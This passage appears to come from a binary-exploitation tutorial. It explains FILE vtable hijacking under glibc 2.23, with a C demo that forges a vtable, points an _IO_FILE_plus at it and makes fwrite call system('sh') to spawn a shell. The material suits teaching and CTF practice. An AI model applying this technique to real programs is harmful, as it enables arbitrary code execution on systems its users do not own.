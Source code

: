 However, under the current libc2.23 version, the vtable located in the libc data segment cannot be written. However, it can still be exploited by forging vtables in controllable memory.


```

#define system_ptr 0x7ffff7a52390;


int main(void)

{

    FILE *fp;

    long long *vtable_addr,*fake_vtable;

    

    fp=fopen("123.txt","rw");

    fake_vtable=malloc(0x40);

    

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    

    vtable_addr[0]=(long long)fake_vtable;

    

    memcpy(fp,"sh",3);

    

    fake_vtable[7]=system_ptr; //xsputn

    

    fwrite("hi",2,1,fp);

}

```



We first allocate a memory to store the fake vtable, then modify the _IO_FILE_plus vtable pointer to point to this memory. Because the pointer in the vtable we are placing the address of the system function, we need to pass the parameter &quot;/bin/sh&quot; or &quot;sh&quot;.


Because the function in the vtable will call the corresponding _IO_FILE_plus pointer as the first parameter, so here we write &quot;sh&quot; to the _IO_FILE_plus header. Subsequent calls to fwrite will execute system(&quot;sh&quot;) via our fake vtable.
